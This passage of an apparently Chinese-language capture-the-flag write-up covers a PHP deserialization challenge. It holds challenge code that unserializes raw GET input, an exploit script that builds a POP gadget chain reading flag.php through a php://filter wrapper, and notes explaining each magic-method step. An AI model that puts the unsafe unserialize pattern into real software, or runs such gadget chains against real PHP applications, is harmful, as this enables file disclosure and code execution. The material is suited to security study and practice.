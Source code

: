 ```php

    public function __get($key){
        $function = $this->p;
        return $function();
    }
}

if(isset($_GET['pop'])){
    @unserialize($_GET['pop']);
}
else{
    $a=new Show;
    highlight_file(__FILE__);
}
?>
```
```php
<?php
class Modifier {
    protected  $var = "php://filter/convert.base64-encode/resource=flag.php";
}

class Show{
    public $source;
    public $str;
    public function __construct($file){
        $this->source = $file;
        echo 'Welcome to '.$this->source."<br>";
    }
    public function __toString(){
        return "www.gem-love.com";
    }
}

class Test{
    public $p;
    public function __construct(){
        echo "constrcut"."</br>";
        $this->p = new Modifier();
    }
}
$o = new Show('aaa');
$o->str = new Test();
var_dump ($o->str);
$a = new Show($o);
var_dump($a);
echo urlencode(serialize($a));
?>
```
- 首先可以看到漏洞的利用点在Modifier类，通过控制调用名为Modifier的无参函数，触发invoke魔术方法，而$var我们可控。
- 触发invoke的方法在Test类中，可以看到它的get魔术方法会调用$function()而$function我们可控。
- 触发get的方法在Show类中，toString中的调用`return $this->str->source;`可以构造$str为Test，$source为不存在的变量，触发get方法。
- 触发toString的方法，该方法用于一个类被当成字符串时应怎样回应，在Show的construct中可以看到有字符串的使用`echo 'Welcome to '.$this->source."<br>";`，只需要构造一个Show类的对象的$source变量为Show类的对象，就可以触发toString方法。
